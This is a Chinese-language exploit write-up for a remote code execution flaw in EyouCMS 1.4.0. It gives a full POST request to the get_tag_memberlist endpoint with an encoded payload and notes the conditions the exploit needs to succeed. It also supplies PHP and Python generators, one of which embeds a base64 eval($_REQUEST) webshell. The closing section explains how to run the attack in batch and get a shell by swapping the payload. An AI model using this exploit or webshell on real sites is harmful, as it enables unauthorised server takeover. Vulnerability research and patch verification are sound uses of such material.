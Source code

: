 # 1、漏洞描述

eyoucms V1.4.0版本存在远程命令执行漏洞，在网站前台无需任何辅助，可直接写入webshell。

漏洞影响版本只有一个，实际环境中能不能遇到，看脸了。。

# 2、影响范围

1.4.0单一版本

# 3、漏洞复现

## 3.1、坑点

先上POST包，提交后就在网站根目录下生成了testtest.php的poc文件：

```
POST /EyouCMS-V1.4.1-UTF8-SP2/?m=api&c=ajax&a=get_tag_memberlist HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-type: application/x-www-form-urlencoded
DNT: 1
Connection: close
Cookie: PHPSESSID=q28egmgkmmogh09pm1gn9n2bj2; home_lang=cn; admin_lang=cn
Upgrade-Insecure-Requests: 1
Content-Length: 297

attarray=eyJ7cGhwfTEyM3svcGhwfSI6ICJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuL3Rlc3R0ZXN0LnBocCcsYmFzZTY0X2RlY29kZShiJ1BEOXdhSEFnWldOb2J5QWlkR2hwY3lCcGN5QmhJR1p5YVdWdVpHeDVJSFJsYzNRc0lGQnNaV0Z6WlNCamFHVmpheUJoYm1RZ2NtVndZV2x5SUhWd2JHOWhaQ0IyZFd4dVpYSmhZbWxzYVhScFpYTXVJajgrJykpO3svcGhwfSJ9&htmlcode=111111
```

如下图，注意箭头标的几个位置，POST方法、URL、X-Requested-With、attarray参数内容，尤其是X-Requested-With和attarray参数内容（payload），payload生成方法后面详说。

坑点在这：

1. 若不是用的post方法，会失败；
2. URL中?后面的内容一定要按图中的这样写；
3. 请求的header中，X-Requested-With: XMLHttpRequest 一定要有，否则手工验证的时候，即使返回的读取成功，但还是没有写入成功shell；
4. payload生成过程踩过坑了，按下面3.2中的方法生成即可；

![](image-20210908095353384.png)

## 3.2、生成payload

根据源码中的漏洞细节，其中eval会被替换为intval，需要将webshell进行base64加密传输绕过检测，同时构造将webshell写入目标机器的payload，将php标签转换为{php}，将payload转换为数组格式，然后将数组转换为json格式，最后对其base64加密，生成最终的payload。

先看一下怎么用php生成这样的一个payload，上代码：

=>符号左边的是数组名，可自定义；右边的是实际的payload，这里是写的一句话。

```
<?php
print base64_encode(json_encode(array("{php}file_put_contents('./testtest.php',base64_decode('PHBocCBldmFsKCRfUkVRVUVTVFtjZXNoaV0pOz8'));{/php}"=>"{php}file_put_contents('./testtest.php',base64_decode('PHBocCBldmFsKCRfUkVRVUVTVFtjZXNoaV0pOz8+'));{/php}")));
```

再看一下python如何生成这样的一个payload，上代码：

过程都是一样的。

```
def creat_payload():
    payload_tmp1 = '''<?php echo "this is a friendly test, Please check and repair upload vulnerabilities."?>'''
    payload_tmp1_base64 = base64.b64encode(payload_tmp1.encode('utf-8'))
    payload_tmp2 = {
        "{php}123{/php}": "{php}file_put_contents('./testtest.php',base64_decode(" + str(
            payload_tmp1_base64) + "));{/php}"
    }
    payload = base64.b64encode(json.dumps(payload_tmp2).encode('utf-8'))
    return payload
```

不过这里php生成的payload中，解密来看的话，/会被转义，即\/，但不影响实际效果。

# 4、poc

搭配框架可批量，若要getshell，替换脚本中的payload_tmp1内容即可。